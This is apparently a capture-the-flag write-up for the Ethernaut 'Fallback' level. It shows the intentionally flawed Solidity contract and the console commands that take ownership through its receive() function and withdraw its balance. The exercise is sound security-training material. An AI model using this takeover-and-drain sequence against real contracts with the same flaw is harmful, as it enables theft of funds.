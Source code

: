 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel1.svg">

## Exploration

Given contract from Ethernaut.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```
Challenge wants us to own the contract and withdraw all contribution from the contract. For this purpose, we should contribute this contract and call ```receive()``` function. In this way, we will own of the contract and withdraw all contribution.

## Subverting
```shell
await contract.owner()
"0x9CB391dbcD447E645D6Cb55dE6ca23164130D008"
```
```shell
await contract.contribute({value: 4})
```
This notification met me.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Fallback/img/contribute.png">

```shell
await contract.getContribution()
Object { negative: 0, words: (2) […], length: 1, red: null }
​
length: 1
​
negative: 0
​
red: null
​
words: Array [ 4, <1 empty slot> ]
​​
0: 4
​​
length: 2
​​
<prototype>: Array []
​
<prototype>: Object { _init: _init(t, e, r), _initNumber: _initNumber(t, e, r), _initArray: _initArray(t, e, r), … }
```
### JSON RPC ETH

One way to call receive function is send external value to contract with console.Part of understanding “what is JSON-RPC” is understanding RPC itself. The concept of a remote procedure call, or RPC, in distributed computing refers to the process by which a computer program causes the execution of a subroutine or a procedure in a different location, known as an address space. Such remote address spaces in distributed computing refer to other computers in a network.

RPCs are coded as though they were just local procedure calls. In other words, a programmer will code the same thing even if the subroutine was meant to be local or remote. There is no distinguishable difference in coding for both local and remote interactions, and the programmer does not need to explicitly indicate that such a procedure call is to be run locally or remotely.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Fallback/img/jsonrpc.png">

For the call receiving function, we use JSON RPC with the ``sendTransaction()`` method and enter the value that will make us the owner of the contract.

```shell
await contract.sendTransaction({value: 1})
```
Check owner.

```shell
await contract.owner()
"0x0C39eb3D6C0583AdA92e15C9e7610B609BBdF35b"

await contract.withdraw()

await contract.getContribution()
```
And submit instance.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Fallback/img/submit.png">

**_by wasny0ps_**
